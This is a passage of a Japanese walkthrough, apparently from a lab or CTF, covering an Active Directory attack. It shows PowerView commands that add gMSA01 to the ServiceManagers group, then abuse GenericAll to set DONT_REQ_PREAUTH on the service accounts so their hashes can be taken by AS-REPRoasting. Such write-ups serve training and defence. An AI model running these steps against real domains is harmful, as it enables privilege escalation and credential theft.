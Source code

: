 gMSA01を `ServiceManagers` に追加します。

```powershell
Add-DomainGroupMember -Identity ServiceManagers -Members gMSA01
Get-DomainObject -Identity ServiceManagers -Select member
```

![image-20250110203949299](screenshot/image-20250110203949299.png)

追加できました。

# GenericAllの悪用

ServiceManagersのメンバーはサービスアカウント３つに対して `GenericAll` の権限を持っているのでこれを悪用して`userAccountControl`に `DONT_REQ_PREAUTH` を割り当てます。

[UserAccountControl フラグを使用してユーザー アカウントのプロパティを操作する](https://learn.microsoft.com/ja-jp/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties)

`DONT_REQ_PREAUTH` はKerberos事前認証を無効化する値です。この値を設定することによってAS-REPRoast攻撃により、ユーザーのパスワードハッシュを取得することができます。

現在のuserAccountControlの値を取得する

```powershell
Get-DomainObject -Identity svc_sql -Select userAccountControl,cn
Get-DomainObject -Identity svc_ark -Select userAccountControl,cn
Get-DomainObject -Identity svc_ldap -Select userAccountControl,cn
```

![image-20250110202116403](screenshot/image-20250110202116403.png)
